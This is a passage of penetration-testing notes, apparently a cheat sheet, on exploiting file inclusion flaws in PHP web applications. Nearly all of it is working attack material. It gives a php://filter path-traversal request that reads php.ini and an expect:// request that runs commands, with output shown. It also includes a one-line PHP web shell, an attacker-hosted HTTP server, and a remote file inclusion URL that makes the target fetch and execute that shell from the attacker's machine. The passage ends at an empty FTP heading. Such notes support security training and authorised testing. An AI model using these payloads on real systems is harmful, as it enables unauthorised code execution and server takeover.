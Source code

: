 `/etc/php/X.Y/fpm/php.ini`) 

where `X.Y` is your install PHP version. 

```php
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

Then…

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect

extension=expect
```

If this option is enabled, it is possible use the `expect` wrapper

### **Remote Code Execution using Exact wrapper**

```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Remote File Inclusion (RFI)

## Test RFI

```bash
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

## **Remote Code Execution with RFI**

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**Note:** It is a good idea to listen on a common HTTP port like `80` or `443`, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections

### **HTTP**

```
sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

Then…

```bash
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

### **FTP**
